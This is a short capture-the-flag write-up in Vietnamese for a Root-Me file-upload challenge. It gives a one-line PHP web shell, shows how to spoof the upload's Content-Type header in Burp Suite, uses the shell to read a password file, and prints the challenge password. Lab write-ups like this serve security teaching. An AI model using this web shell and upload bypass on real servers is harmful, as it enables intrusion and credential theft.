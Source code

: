 # [File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)

## Solutions

- Tạo file `test.php` có nội dung là:

```php
<?php
system($_GET['command']);
?>
```

- Sử dụng burp suite để chỉnh sửa http request khi upload file `test.php`:
  - Sửa đổi header: `Content-Type: image/jpeg`
  - => upload file thành công

- Gửi request đến nơi chứa file `test.php` với request query parameter là `?command=cat ../../../.passwd`

- Password xuất hiện trong response: `a7n4nizpgQgnPERy89uanf6T4`

## References

- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Secure%20file%20upload%20in%20PHP%20web%20applications.pdf?_gl=1>
